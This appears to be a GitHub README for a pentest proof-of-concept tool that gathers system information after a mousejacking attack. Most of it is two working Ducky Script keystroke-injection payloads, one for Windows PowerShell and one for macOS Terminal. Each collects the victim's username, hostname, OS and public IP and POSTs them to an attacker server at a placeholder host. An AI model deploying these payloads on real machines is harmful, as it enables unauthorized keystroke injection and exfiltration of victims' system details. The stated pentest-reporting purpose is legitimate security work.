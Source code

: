 # info_gather
Gather Windows Info for POC. A good use case is a POC for mousejacking finding on a pentest report.

Run the server and any port using:

```
python3 info_gather.py 80
```

For a victim Windows machine use this Ducky Script to send the info to the server host:

```
DELAY 2000
GUI r
DELAY 500
STRING powershell.exe
DELAY 500
ENTER
DELAY 500
STRING $username = $env:username;$hostname = hostname;$os = (Get-CimInstance Win32_OperatingSystem).Caption;$public_ip = (Invoke-WebRequest -Uri 'http://ipinfo.io/ip').Content.Trim();$data = @{'username' = $username;'hostname' = $hostname;'os' = $os;'public_ip' = $public_ip};$json = $data | ConvertTo-Json;Invoke-RestMethod -Method Post -Uri "http://yourserver.com" -Body $json -ContentType "application/json"
DELAY 500
ENTER
```


For a victim MacOS machine, use this Ducky Script to send the info to the server host:
```
DELAY 2000
COMMAND SPACE  // Opens Spotlight Search
DELAY 500
STRING terminal
DELAY 500
ENTER
DELAY 1000
STRING username=$(whoami);hostname=$(scutil --get ComputerName);os=$(sw_vers -productName);public_ip=$(curl -s ifconfig.me);data="{\"username\":\"$username\",\"hostname\":\"$hostname\",\"os\":\"$os\",\"public_ip\":\"$public_ip\"}";curl -X POST -H "Content-Type: application/json" -d "$data" http://yourserver.com
DELAY 500
ENTER
```
